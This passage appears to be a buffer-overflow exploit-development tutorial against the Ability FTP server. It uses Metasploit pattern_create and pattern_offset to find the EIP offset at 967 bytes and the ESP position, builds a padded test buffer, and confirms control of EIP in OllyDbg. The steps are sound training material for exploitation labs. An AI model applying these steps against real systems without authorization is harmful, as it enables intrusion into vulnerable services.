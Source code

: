 ```
./pattern_create.rb 2000
```

- Copy the string and replace the buffer that contains 2000 As.

- Start the Ability ftp server.

- Open OllyDbg, attach the executable and press Play.

- Run the exploit.

- This time the 4 bytes used to overwrite the EIP are 67423267

- Use pattern_offset.py to identify the location of the 4 bytes in the 2000 byte string.

```
./pattern_offset.rb 67423267 2000

967
```

- The EIP has been overwritten by the buffer from the 967th character to the 971st character.

- Now try to find the location of memory that the ESP register is pointed to, and identify its position in the 2000 byte buffer.
- Notice the ESP points to an address, which contains part of our unique string.
- Try to identify the location of this unique string in the buffer.
- Use the first 4 bytes in the ESP

```
./pattern_offset.rb Bg9B

987
```

### Part 3

Convert to Hex
```
A = \x41
B = \x42
C = \x43
D = \x44

```


NOP = \x90
```  
A no operation instruction.  It simply means, continue to the next instruction.
```
New buffer:
```
A * 967 + B * 4 + C * 16 + D * 1013
```
```
967 + 4 = 971
987 - 971 = 16
2000 - 987 = 1013
```
```
- Shortcut: OllyDbg > Restart > Yes > Play
- Run the exploit.
- The EIP has been overwritten with all Bs (42424242).
- Right click on ESP > Follow in Dump
- The ESP has been overwritten with just Ds.
```
